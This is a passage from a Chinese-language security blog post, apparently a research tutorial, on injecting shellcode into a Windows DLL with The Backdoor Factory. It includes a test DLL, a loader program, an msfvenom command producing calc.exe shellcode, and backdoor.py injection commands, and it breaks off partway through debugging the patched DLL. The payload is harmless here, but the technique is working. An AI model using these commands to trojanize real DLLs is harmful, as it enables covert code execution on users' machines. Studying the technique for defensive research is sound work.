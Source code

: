 ```
void Export1()
{
	printf("[+] Export1\n");
}
```

导出函数为`Export1`

Dll加载程序 loader.exe：

```
#include <windows.h> 
typedef void(*Export)();
int main(int argc, char* argv[])
{
	Export exporttest;
	printf("[*] LoadLibrary\n");
	HMODULE hDllLib = LoadLibrary("testdll.dll");
	exporttest=(Export)GetProcAddress(hDllLib ,"Export1");
	exporttest();
	Sleep(10000);
	FreeLibrary(hDllLib);
	printf("[*] FreeLibrary\n");
	return 0;
}
```

程序执行如下图，加载testdll.dll，调用导出函数`Export1`

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/2-1.png)

使用The Backdoor Factory为DLL文件添加后门：

```
msfvenom -p windows/exec CMD=calc.exe -f raw >calc.bin
./backdoor.py -f testdll.dll -s user_supplied_shellcode_threaded -U calc.bin -a
```

再次执行loader.exe，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/2-2.png)

成功执行payload，但是改变了程序流程，无法正常返回`FreeLibrary`

需要对DLL进行调试,找到出错的原因

首先生成空的跳转模板：

```
./backdoor.py -f testdll.dll -s cave_miner_inline
```

选择`.text`段

执行Loader.exe，程序一切正常，那么就是中间的payload出了问题

使用Immunity Debugger打开新的testdll.dll，找到劫持的位置，payload保存在`0x10005716`
